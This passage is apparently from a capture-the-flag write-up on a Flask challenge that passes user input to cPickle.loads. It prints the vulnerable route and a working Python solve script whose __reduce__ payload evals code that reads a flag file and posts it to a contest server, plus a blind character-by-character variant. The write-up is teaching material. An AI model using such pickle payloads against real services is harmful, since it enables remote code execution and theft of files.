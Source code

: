 <div>
<center><img src="/images/unbreakable_1_writeup/rundown-error.png"></center>
</div>

The new output offered a lot of information. First, the web app was powered by Flask. The server was using python 2.7 and a part of the app.py file was visible in the traceback:

{% highlight python %}
@app.route("/", methods=["POST"])

def newpost():
  picklestr = base64.urlsafe_b64decode(request.data)

  if " " in picklestr:
    return "The ' ' is blacklisted!"

  postObj = cPickle.loads(picklestr)
  return ""

if __name__ == "__main__":
    app.run(host = "0.0.0.0", debug=True)
{% endhighlight %}

[Using pickle on user input is as secure as using eval](https://davidhamann.de/2020/04/05/exploiting-python-pickle/). However, I was not allowed to use spaces in the payload, so the task was a bit harder. The solve script below prints the flag, but I have to admit it was inspired [from this writeup](https://github.com/saw-your-packet/ctfs/blob/master/Unbreakable%20Romania%20Online%20%231/Write-ups.md#rundown):

{% highlight python %}
import _pickle as cPickle
import base64
import os
import string
import requests
import time

class Exploit(object):
	def __reduce__(self):
		return (eval, ('eval(open("flag","r").read())', ))

def sendPayload(p):
	newp = base64.urlsafe_b64encode(p).decode()
	headers = {'Content-Type': 'application/yakoo'}
	r = requests.post("http://35.246.180.101:30994/",headers=headers,data=newp)
	return r.text


payload_dec = cPickle.dumps(Exploit(), protocol=2)
print("ctf{" + sendPayload(payload_dec).split("ctf{")[1].split("}")[0] + "}")
{% endhighlight %}

My solution involved exfiltrating the flag character by character by raising an eception if the characters don't match - like a blind SQL injection, but with pickle & python. To get an idea of how overcomplicated it was, here's my original `Exploit` class:

{% highlight python %}
class Exploit(object):
	def throw_err(e):
		raise Exception(e)

	def __reduce__(self):
		return (eval, ('(0)if(open("flag","r").read()[77]=="z")else(1/0)', ))
{% endhighlight %}
